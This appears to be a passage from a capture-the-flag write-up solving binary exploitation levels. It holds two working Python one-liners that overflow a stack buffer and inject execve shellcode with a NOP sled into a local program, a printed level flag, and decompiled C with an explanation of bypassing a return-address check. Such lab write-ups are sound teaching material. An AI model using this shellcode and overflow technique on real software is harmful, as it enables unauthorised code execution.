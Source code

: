 	- Simple buffer overflow with direct shellcode:
	```python
	(python -c 'print("A" * 76 + "\x60\xf7\xff\xbf" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'; cat) | ./level1
	```

	We redirect the stream to the program with a pipe and we add the command `cat` to keep the shell alive.

	- Buffer overflow with a NOP sled for better reliability:
	```python
	(python -c 'print("A" * 76 + "\x70\xf7\xff\xbf" + "\x90" * 16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'; cat) | ./level1
	```


## LEVEL1 - FLAG

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

## LEVEL2 - BINARY ANALYSIS

```c
void main(void) {
	p();
	return;
}

void p(void) {
	uint retaddr;
	char buffer[76];

	fflush(stdout);
	gets(buffer);

	if ((retaddr & 0xb0000000) == 0xb0000000) {
		printf("(%p)\n", retaddr);
		_exit(1);
	}

	puts(buffer);
	strdup(buffer);
	return;
}
```

## LEVEL2 - EXPLANATION & SOLUTION

Vulnerability: Buffer Overflow with Return Address Validation

The binary contains a buffer overflow vulnerability in the gets function within the p function. The program attempts to validate the return address to prevent execution of shellcode from restricted memory regions (0xb0000000). However, this check can be bypassed with proper payload construction.
